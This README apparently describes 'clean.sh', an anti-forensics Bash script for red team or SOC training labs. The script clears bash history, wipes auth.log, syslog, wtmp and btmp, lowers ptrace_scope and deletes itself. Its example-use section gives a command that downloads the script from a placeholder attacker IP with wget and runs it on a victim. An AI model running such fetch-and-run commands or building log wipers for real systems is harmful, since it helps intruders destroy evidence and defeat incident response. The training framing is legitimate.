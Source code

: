 # clean.sh

 Anti-Forensics Bash Script: SSH Log Wiper
This project demonstrates how attackers may clean up their traces after gaining remote access to a Linux system via SSH. It includes a Bash script that performs full cleanup of forensic artifacts, simulating realistic attacker behavior for Red Team or SOC training labs.

🎯 Features
Clears .bash_history and disables history logging

Wipes key system log files: auth.log, syslog, wtmp, btmp, etc.

Deletes temporary files from /tmp and /var/tmp

Optionally lowers ptrace_scope for stealth

Prompts user to optionally reboot the system

Self-destructs: deletes itself after execution or reboot

🧪 Lab Setup
Attacker: Kali Linux (hosts the script over HTTP)

Victim: Ubuntu server (pulls script via wget or curl and executes)

⚠️ Disclaimer
This script is for educational and red team lab use only.
Do not use on production environments or without permission.

💡 Example Use
bash
Copy
Edit
wget http://<ATTACKER_IP>:8080/clean.sh -O /tmp/clean.sh
chmod +x /tmp/clean.sh
bash /tmp/clean.sh

